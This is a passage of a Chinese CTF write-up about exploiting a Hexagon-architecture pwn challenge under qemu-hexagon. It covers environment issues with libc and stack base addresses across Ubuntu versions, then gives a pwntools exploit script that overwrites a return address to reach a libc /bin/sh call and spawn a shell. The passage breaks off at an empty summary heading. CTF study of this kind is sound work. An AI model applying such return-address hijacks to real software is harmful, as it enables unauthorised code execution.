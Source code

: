   
  
![image-20250213155650967](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcW8owdLw816JMT9D6Ke7x7sWPibQem7KcJiaw18xmuqaXKlCY4D9JkBQQ/640?wx_fmt=png&from=appmsg "")  
  
  
这里讲一下笔者遇到的问题  
  
  
◆因为笔者用到Ubuntu22.04， qemu-user是带着qemu-hexagon的，也就是我们在跑本地的时候直接可以跑，但是在Ubuntu20.04下，会发生报错，所以就要设置一下架构也就是要按照作者的wp写。  
  
  
```
r = process(['qemu-hexagon', '-L', 'libc', '-d', 'in_asm,exec,cpu,nochain', '-dfilter', '0x20420+0xc0', '-strace', '-D', './log', './main'])

```  
  
  
  
◆还有就是题目的libc基址和栈地址都会发生改变（20.04）  
  
  
![image-20250213155526366](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcmI4GcIbZLic1EBWiceibwoUWLh56iclT7POl4Sdxv2cK3RgvviaYTr6phHA/640?wx_fmt=png&from=appmsg "")  
  
  
![image-20250213155604086](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcV494zTLb8Z4VCpTcxMNb9Ro7CeOhsfvegbicOISto6HPkxHIDUGbnRg/640?wx_fmt=png&from=appmsg "")  
  
  
```
from pwn import *

r = process(['qemu-hexagon', '-L', 'libc', '-d', 'in_asm,exec,cpu,nochain', '-dfilter', '0x20420+0xc0', '-strace', '-D', './log', './main'])
context(os='linux', log_level='debug')
libc = ELF('./libc.so')

stack =  0x4080f0b8
libc_base = 0x40810000
binsh = libc_base+0x119f7

#r.recv()
r.sendline(str(binsh).encode())

payload = p32(0)*2 + p32(stack+8)+p32(libc_base+0xBE7C0)
r.send(payload)

r.interactive()

```  
  
  
  
![image-20250213155956253](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcFodO9LfpQjmK07rpmr1OwY2yzTFpvFB8LRtKiaqOf6eT0jt7C4yXnPA/640?wx_fmt=png&from=appmsg "")  
  
  
更换为0x3FEC0000则跑不通  
  
  
![image-20250213160112662](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcebF8eEuzHJDVSpxaJEzyeNB8VtoUQTwXAckM5TRf6BvgqTSuuPDRbg/640?wx_fmt=png&from=appmsg "")  
###   
### 总结：  
  